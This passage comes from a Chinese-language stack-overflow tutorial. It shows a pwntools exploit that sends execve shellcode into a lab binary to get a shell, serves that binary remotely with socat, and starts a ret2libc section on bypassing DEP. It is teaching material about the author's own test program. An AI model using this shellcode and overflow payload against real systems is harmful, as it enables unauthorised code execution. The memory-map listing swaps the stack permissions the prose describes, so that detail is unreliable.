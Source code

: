 p = process('./level1') 
ret = 0xbffff290

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

p.interactive()  #开启交互shell
</code>
</pre>
<p nodeIndex="77">执行exp：</p>
<pre class="prettyprint" nodeIndex="78">
<code nodeIndex="174">#!bash
$ python exp1.py 
[+] Started program './level1'
[*] Switching to interactive mode
$ whoami
mzheng
</code>
</pre>
<p nodeIndex="79">接下来我们把这个目标程序作为一个服务绑定到服务器的某个端口上，这里我们可以使用socat这个工具来完成，命令如下：</p>
<pre nodeIndex="80">
<code nodeIndex="175">#!bash
socat TCP4-LISTEN:10001,fork EXEC:./level1
</code>
</pre>
<p nodeIndex="81">随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 10001来访问我们的目标程序服务了。</p>
<p nodeIndex="82">因为现在目标程序是跑在socat的环境中，exp脚本除了要把p = process('./level1')换成p = remote('127.0.0.1',10001) 之外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行远程溢出啦！</p>
<pre class="prettyprint" nodeIndex="83">
<code nodeIndex="176">#!bash
python exp1.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ id
uid=1000(mzheng) gid=1000(mzheng) groups=1000(mzheng),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
</code>
</pre>
<h2 nodeIndex="84">0x02 Ret2libc – Bypass DEP 通过ret2libc绕过DEP防护</h2>
<p nodeIndex="85">现在我们把DEP打开，依然关闭stack protector和ASLR。编译方法如下：</p>
<pre nodeIndex="86">
<code nodeIndex="177">#!bash
gcc -fno-stack-protector -o level2 level2.c
</code>
</pre>
<p nodeIndex="87">这时候我们如果使用level1的exp来进行测试的话，系统会拒绝执行我们的shellcode。如果你通过 <code nodeIndex="178">sudo cat /proc/[pid]/maps</code> 查看，你会发现level1的stack是rwx的，但是level2的stack却是rw的。</p>
<pre class="prettyprint" nodeIndex="88">
<code nodeIndex="179">level1:   bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
level2:   bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
</code>
</pre>
<p nodeIndex="89">那么如何执行shellcode呢？我们知道level2调用了libc.so，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行 <code nodeIndex="180">system(“/bin/sh”)</code> 的话，也可以获取到shell。既然思路有了，那么接下来的问题就是如何得到system()这个函数的地址以及”/bin/sh”这个字符串的地址。</p>
<p nodeIndex="90">如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含”/bin/sh”这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。</p>